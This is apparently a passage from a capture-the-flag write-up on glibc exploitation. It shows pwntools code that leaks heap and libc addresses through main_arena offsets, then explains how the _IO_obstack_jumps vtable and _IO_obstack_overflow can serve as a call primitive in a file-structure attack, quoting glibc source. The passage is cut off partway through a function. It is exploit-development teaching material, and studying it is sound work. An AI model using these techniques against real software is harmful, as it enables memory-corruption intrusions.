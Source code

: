 ```py

    fflush()
    ret = pwn.u64(io.recv(8).ljust(8, b"\x00"))

    return ret

"""
[...]
"""

leak_main_arena = leak + 0x1ed5a0

heap = leak_ptr(pwn.p64(leak_main_arena)) - 0x2a0
pwn.log.info(f"heap: {hex(heap)}")
```

## obstack exploitation

As far I know, `obstack` has never been used in CTF even though it can be leveraged as a very good call primitive (and as said before it needs a heap and libc to be used). Basically, the `_IO_obstack_jumps` vtable looks like this:
```c
/* the jump table.  */
const struct _IO_jump_t _IO_obstack_jumps libio_vtable attribute_hidden =
{
    JUMP_INIT_DUMMY,
    JUMP_INIT(finish, NULL),
    JUMP_INIT(overflow, _IO_obstack_overflow),
    JUMP_INIT(underflow, NULL),
    JUMP_INIT(uflow, NULL),
    JUMP_INIT(pbackfail, NULL),
    JUMP_INIT(xsputn, _IO_obstack_xsputn),
    JUMP_INIT(xsgetn, NULL),
    JUMP_INIT(seekoff, NULL),
    JUMP_INIT(seekpos, NULL),
    JUMP_INIT(setbuf, NULL),
    JUMP_INIT(sync, NULL),
    JUMP_INIT(doallocate, NULL),
    JUMP_INIT(read, NULL),
    JUMP_INIT(write, NULL),
    JUMP_INIT(seek, NULL),
    JUMP_INIT(close, NULL),
    JUMP_INIT(stat, NULL),
    JUMP_INIT(showmanyc, NULL),
    JUMP_INIT(imbue, NULL)
};
```

Given when `_IO_SYNC` is called in `_IO_fflush` the second argument is `0x1`, we cannot call functions like `_IO_obstack_xsputn` that need buffer as arguments, that's the reason why we have to dig into `_IO_obstack_overflow`.
```c
static int
_IO_obstack_overflow (FILE *fp, int c)
{
  struct obstack *obstack = ((struct _IO_obstack_file *) fp)->obstack;
  int size;

  /* Make room for another character.  This might as well allocate a
     new chunk a memory and moves the old contents over.  */
  assert (c != EOF);
  obstack_1grow (obstack, c);

  /* Setup the buffer pointers again.  */
```